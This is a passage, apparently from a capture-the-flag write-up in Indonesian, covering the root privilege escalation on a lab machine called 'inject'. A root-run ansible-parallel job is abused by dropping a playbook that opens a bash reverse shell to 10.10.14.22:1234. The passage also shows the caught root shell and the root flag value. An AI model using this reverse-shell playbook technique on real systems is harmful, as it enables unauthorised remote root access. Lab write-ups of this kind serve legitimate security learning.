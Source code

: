 
##### Process

```bash
2024/06/18 06:46:01 CMD: UID=0     PID=23142  | /usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/playbook_1.yml 
```


###### membuat reverse shell nya

di lokasi /opt/automation/tasks nanti tunggu bebrapa menit atau menggunakan psy64 runnning nya

```bash
echo "- hosts: localhost
  tasks:
  - name: rev
    shell: bash -c 'bash -i >& /dev/tcp/10.10.14.22/1234 0>&1'" >> root.yml
```

###### reverse shell nya

```bash
[aexon@aexon-mybookhype3 CVE-2022-22963_Reverse-Shell-Exploit]$ pwncat -l 1234

root@inject:/opt/automation/tasks# id
uid=0(root) gid=0(root) groups=0(root)
root@inject:/opt/automation/tasks# 

```

###### root flag

```bash
cat /root/root.txt
61c223969059fb8e5f8f6a3171307b12
root@inject:/opt/automation/tasks# 
```